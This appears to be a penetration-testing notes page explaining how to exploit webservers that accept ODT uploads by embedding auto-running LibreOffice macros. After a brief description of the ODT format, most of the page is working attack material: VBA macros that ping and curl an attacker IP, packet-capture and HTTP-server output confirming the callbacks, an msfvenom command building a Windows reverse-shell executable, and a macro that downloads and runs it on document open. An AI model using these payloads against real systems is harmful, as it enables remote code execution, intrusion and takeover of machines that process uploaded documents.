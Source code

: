 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ODT

The ODT file type is the default document format used by LibreOffice Writer and other OpenDocument-compatible applications. It belongs to the [OpenDocument Text](https://www.libreoffice.org/discover/what-is-opendocument/) (ODT) standard, which defines how word processing documents are structured, stored, and exchanged across different platforms. Internally, an ODT file is **a compressed ZIP archive that contains multiple XML-based files and directories**. These components define the document’s content, formatting, metadata, and embedded elements such as images or macros. Because of this structure, an ODT can be unpacked with standard archive utilities and examined directly, making it easier to analyze or manipulate at a granular level.

When there is upload functionality on a webserver accepting `.odt` files, macros can be leveraged to achieve RCE. Simple payloads, like pingbacks and `GET` requests, can used as a test:

1. Create a basic macro (1) under the document's name (2).
2. Try some testing payloads first, such as pingbacks and `GET` requests (3).
3. Make the macro execute as soon as the document opens (4 & 5).

<figure><img src="../../.gitbook/assets/odt_macro.png" alt=""><figcaption></figcaption></figure>

```vba
Sub Main
	' Ping the attacking host one time
	Shell("cmd /c ping -n 1 192.168.45.241")
	' Wait for two seconds
	Wait(200)
	' Send a GET request to an attacker-controlled webserver 
	Shell("cmd /c curl 'http://192.168.45.241/test'")
End Sub
```

```bash
# Test pingback
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:05:27.230793 IP craft > 192.168.45.241: ICMP echo request, id 1, seq 1, length 40
22:05:27.230891 IP 192.168.45.241 > craft: ICMP echo reply, id 1, seq 1, length 40
​
# Test HTTP GET request
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.156.169 - - [16/Aug/2025 22:07:44] code 404, message File not found
192.168.156.169 - - [16/Aug/2025 22:07:44] "GET /test HTTP/1.1" 404 -
```

Once the test payloads are validated, they can mofidied as desired:

{% code overflow="wrap" %}
```bash
# Create a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=443 -f exe -o revshell_443.exe
```
{% endcode %}

{% code overflow="wrap" %}
```vba
Sub Main
	' Download the payload on the target
	Shell("cmd /c 'curl http://192.168.45.241:443/revshell.exe' -o 'c:\windows\temp\revshell.exe'")
	' Wait for five seconds to ensure the payload has been downloaded
	Wait(5000)
	' Execute the payload
	Shell("cmd /c 'c:\windows\temp\revshell.exe'")
End Sub
```
{% endcode %}
